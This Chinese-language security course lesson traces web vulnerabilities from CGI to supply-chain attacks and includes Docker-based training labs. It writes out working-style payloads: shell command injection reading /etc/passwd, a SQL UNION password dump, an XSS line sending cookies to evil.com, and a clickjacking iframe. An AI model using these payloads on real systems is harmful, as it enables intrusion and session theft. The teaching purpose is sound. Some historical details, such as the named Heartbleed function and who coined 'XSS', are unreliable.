




## 0. 开场：为什么要学"安全史"？
> "不知道敌人从哪里来，就不知道防线该筑在哪里。"


学习 Web 安全史，不是为了背年份，而是为了：

1. **建立攻防演进图谱** —— 漏洞不是孤立的，是**此消彼长**的循环
2. **理解漏洞的本质** —— 每一类漏洞背后，都是某次"信任边界"的坍塌
3. **预判下一波威胁** —— 看清趋势，比追热点更重要

### 本课学习目标
| 维度 | 目标 |
| --- | --- |
| 知识 | 能说出 Web 安全发展的 4 个主要阶段及其代表性漏洞 |
| 技能 | 能在靶场环境复现至少 3 种历史经典漏洞 |
| 思维 | 能用"信任边界"模型分析一个新型漏洞的成因 |

---

## 1. 时间线总览


---

## 2. 第一章：混沌初开（1991 — 1998）
### 2.1 时代背景
```plain
┌─────────────────────────────────────────────┐
│   浏览器 ──HTTP──►  Web 服务器 ──►  CGI 脚本  │
│                       (Perl / C / sh)        │
└─────────────────────────────────────────────┘
```

+ Web 还只是"超链接文档库"，没有 JavaScript，没有 Cookie
+ 动态页面靠 **CGI**（Common Gateway Interface），把用户输入直接传给 Perl / C 程序执行
+ **没有**安全模型，**没有**身份认证规范，**没有**输入校验

### 2.2 代表性事件
| 年份 | 事件 | 意义 |
| --- | --- | --- |
| 1988 | Morris Worm | 互联网第一次大规模安全事件，催生 CERT |
| 1993 | Mosaic 浏览器发布 | Web 走向大众 |
| 1995 | JavaScript / Cookie 诞生 | 后续 XSS、CSRF 的"温床"被铺好 |
| 1998 | Rain.Forest.Puppy 发表 _NT Web Technology Vulnerabilities_ | 首次系统公开 SQL 注入手法 |


### 2.3 经典漏洞：CGI 命令注入
```perl
# 90 年代典型的 Perl CGI 漏洞代码
#!/usr/bin/perl
print "Content-type: text/html\n\n";
$cmd = $ENV{'QUERY_STRING'};        # 用户可控
system("ping $cmd");                # 直接拼接到 shell
```

**利用方式**：

```plain
http://victim.com/cgi-bin/ping.pl?127.0.0.1;cat /etc/passwd
```

> 这就是今天**命令注入 (CWE-78)** 的"祖宗"。
>

### 2.4 实操 Lab 01：搭建复古 CGI 环境
**目标**：在 Docker 中复现 Perl CGI 命令注入并验证修复方案。

```bash
# 1. 启动一台 90 年代风味的 Apache + CGI
docker run -d --name retro-cgi -p 8080:80 \
  -v $(pwd)/cgi-bin:/usr/lib/cgi-bin \
  php:5.6-apache

# 2. 在 cgi-bin/ 目录放入 ping.pl (上面那段代码，chmod +x)
# 3. 浏览器访问触发漏洞
curl "http://localhost:8080/cgi-bin/ping.pl?127.0.0.1;id"
```

**实验报告要求**：

+ 写出 payload
+ 用 `system()` vs `exec()` vs `open()` 三种调用的差异
+ 提出修复方案（参数化 / 白名单 / escapeshellarg）

---

## 3. 第二章：黄金十年（1999 — 2008）
### 3.1 时代背景
Web 进入**动态化、交互化**阶段：论坛、邮箱、电商、博客爆发。LAMP（Linux + Apache + MySQL + PHP）成为主流，**更多用户输入 → 更多攻击面**。

### 3.2 OWASP 的诞生（2001）
> Open Web Application Security Project，**开放式 Web 应用安全项目**
>



OWASP 的核心价值：**把"安全"从黑盒带向开源共识**。

### 3.3 三大经典漏洞登场
#### (1) SQL 注入（SQL Injection, CWE-89）
**成因模型**：

```plain
用户输入 ──字符串拼接──► SQL 语句 ──► 数据库执行
   │
   └─ "信任了用户输入，未做转义/参数化"
```

**典型代码**：

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id = $id";
mysql_query($sql);
```

**Payload 演示**：

```plain
URL:  /news.php?id=1 UNION SELECT username,password FROM admins--
SQL:  SELECT * FROM news WHERE id = 1 UNION SELECT username,password FROM admins--
```

#### (2) 跨站脚本（XSS, CWE-79）
**命名时刻**：2000 年，Microsoft 工程师 _Chevert Halock_ 在 OWASP 会议上首次将 "Cross-Site Scripting" 缩写为 **XSS**（避开与 CSS 冲突）。

**三种类型**：



**经典反射型 XSS 示范**：

```plain
http://bank.com/search?q=<script>document.location='http://evil.com/?c='+document.cookie</script>

```

#### (3) 跨站请求伪造（CSRF, CWE-352）
**类比**：

> 你刚登录银行，没退出。黑客网站悄悄放了一个 ``，浏览器自动带着你的 Cookie 发了请求。
>

### 3.4 实操 Lab 02：DVWA 三件套
**靶场**：[DVWA](https://github.com/digininja/DVWA)（Damn Vulnerable Web Application）

```bash
docker run -d -p 80:80 vulnerables/web-dvwa
# 默认账号 admin / password
```

**任务清单**：

| 编号 | 漏洞 | 难度 | 关键观察点 |
| --- | --- | --- | --- |
| ① | SQL Injection | Low→High | 看源码如何从拼接升级到 PDO |
| ② | XSS (Reflected) | Low→High | 观察 htmlspecialchars / CSP 的加入 |
| ③ | CSRF | Low→High | Token 校验如何阻断跨站请求 |


**思考题**：DVWA 的 **Impossible 级别**用的是什么防御思想？（答：**默认安全 + Anti-CSRF Token + 参数化**）

---

## 4. 第三章：攻防升级（2009 — 2015）
### 4.1 OWASP Top 10 演变
| 版本 | 关键新增 | 行业信号 |
| --- | --- | --- |
| 2007 | "Malicious File Execution" | PHP 时代文件上传乱象 |
| 2010 | A6 - Security Misconfiguration | 默认配置 / 后台暴露 |
| 2013 | A1 - Injection 登顶 | SQL 注入达到顶峰 |
| 2017 | A8 - Insecure Deserialization | 反序列化大爆发 |


### 4.2 点击劫持（Clickjacking, 2008）
**核心原理**：用透明 `<iframe>` 覆盖在诱导 UI 上，让用户"自己点"。

```html
<!-- 攻击者页面 -->
<button class="lure">点击抽奖</button>

<iframe src="http://bank.com/delete-account"
        style="opacity:0; z-index:99; position:absolute;"></iframe>

```

**防御**：`X-Frame-Options: DENY` / CSP `frame-ancestors`。

### 4.3 APT 时代的开端


> **概念引入**：APT = Advanced Persistent Threat，**高级持续性威胁**  
特征：长期潜伏 + 定制化武器 + 明确目标（政府、能源、金融）
>

### 4.4 改变世界的"心脏出血"（Heartbleed, 2014）
**漏洞**：OpenSSL `dtls1_process_hello` 读取越界，**64 KB 内存裸奔**。

```c
// Bug 本质：memcpy 用了"用户给的长度"而非"实际数据长度"
memcpy(bp, pl, payload);    // payload 来自攻击者报文
```

**影响**：

+ Yahoo / Github / OpenSSL 等全球 17% HTTPS 站点受影响
+ 大规模 SSL 证书重签
+ 诞生了首个"漏洞专属 Logo + 域名"：heartbleed.com

### 4.5 实操 Lab 03： Pikachu 靶场通关
```bash
docker run -d -p 8081:80 area39/pikachu
```

**必修关卡**：

+ 越权（水平 / 垂直）→ 理解 **IDOR** 概念
+ RCE → **命令注入** 的现代变种
+ 文件上传 → **绕过后缀名检查**

**输出**：每个漏洞写一份"漏洞复现报告"（含 PoC + 修复建议）。

---

## 5. 第四章：现代对抗（2016 — 至今）
### 5.1 漏洞类型复杂化
```plain
传统漏洞（输入校验）        新型漏洞（信任链/反序列化）
─────────────────          ───────────────────────
SQL 注入                   反序列化 RCE
XSS                       SSRF
CSRF                      XXE
文件上传                   JWT 伪造
                          原型链污染
                          供应链投毒
```

### 5.2 SSRF：内网穿透的"特洛伊木马"
> Capital One 2019 年泄露 **1.06 亿用户数据**，根因就是一个 SSRF。
>



**防御要点**：协议白名单、内网 IP 黑名单、DNS 重绑定防护。

### 5.3 反序列化：从"理论洞"到"批量 0day"
| 事件 | 时间 | 影响 |
| --- | --- | --- |
| Apache Struts2 S2-045 | 2017 | Equifax 1.43 亿人信息泄露 |
| Fastjson 1.2.24 | 2017 | 国内 Java 圈大地震 |
| Apache Shiro "rememberMe" | 2016 | 默认密钥致大量站点沦陷 |
| Log4Shell (Log4j JNDI) | 2021 | 全球级核弹，CVE-2021-44228 |


**反序列化原理示意**：

```plain
序列化:  Java对象 → 字节流   (用于网络传输/缓存)
反序列化: 字节流  → Java对象 (会自动触发 readObject / 构造方法 / toString ...)

攻击点: 如果字节流可控，攻击者可触发任意类的"魔法方法" → RCE
```

### 5.4 供应链攻击：你最信任的，最致命


**供应链攻击的核心特征**：

+ **潜伏周期长** —— XZ 后门隐藏 3 年
+ **身份合法** —— 用真名、真 commit、真邮箱渗透维护者
+ **影响半径大** —— 一个基础库波及千万下游

### 5.5 API & 云原生时代的"新战场"
| 新增战场 | 典型漏洞 |
| --- | --- |
| REST API | BOLA (Broken Object Level Authorization) / 大规模 IDOR |
| GraphQL | 内省信息泄露 / 嵌套查询 DoS |
| JWT | `alg: none` / 弱密钥爆破 / `kid` 注入 |
| 容器 | Dockerfile 特权逃逸 / 内核 Cap 滥用 |
| K8s | API Server 未授权 / etcd 默认开放 |
| Serverless | 事件注入 / IAM 过权 |


> 参考：**OWASP API Security Top 10**
>

### 5.6 实操 Lab 04：综合靶场
| 平台 | 定位 | 推荐指数 |
| --- | --- | --- |
| [Vulhub](https://vulhub.org) | 真实 CVE 复现环境，docker-compose 一键起 | ★★★★★ |
| [WebGoat](https://owasp.org/www-project-webgoat/) | OWASP 官方教学靶场 | ★★★★ |
| [PortSwigger Web Security Academy](https://portswigger.net/web-security) | 免费、官方、体系完整 | ★★★★★ |
| [HackTheBox](https://www.hackthebox.com) | 进阶综合渗透 | ★★★★ |
| [春秋云镜](https://yunjing.ichunqiu.com) | 国内实战型 CVE 靶场 | ★★★★ |


**毕业项目**：复现 **Log4Shell (CVE-2021-44228)**，提交：

1. 漏洞原理分析（含 JNDI 调用链图）
2. Vulhub 复现过程
3. 检测规则（WAF / 日志）
4. 修复方案（升级 + 移除 JndiLookup.class）

---

## 6. 攻防演进总图谱


**一句话总结**：每一次漏洞类型的升级，本质都是**信任边界被推得更靠后**——从"代码边界"到"会话边界"，再到"基础设施边界"，最终到"信任链边界"。

---


